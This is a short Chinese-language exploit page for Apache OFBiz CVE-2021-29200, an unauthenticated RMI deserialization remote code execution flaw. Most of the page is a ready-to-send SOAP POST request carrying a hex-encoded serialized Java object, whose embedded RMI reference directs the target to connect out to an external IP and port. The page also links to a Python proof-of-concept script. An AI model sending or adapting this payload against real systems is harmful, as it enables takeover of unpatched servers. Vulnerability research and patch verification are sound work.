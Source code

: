 # Apache OFBiz RMI Bypass RCE（CVE-2021-29200）


由于Apache OFBiz存在Java RMI反序列化漏洞，未经身份验证的用户可以执行RCE攻击，导致服务器被接管。

影响版本：
Apache OFBiz < 17.12.07

详细分析可以见：https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```

poc.py：https://github.com/r0ckysec/CVE-2021-29200

ref:

* https://github.com/r0ckysec/CVE-2021-29200
* https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
* https://xz.aliyun.com/t/9556
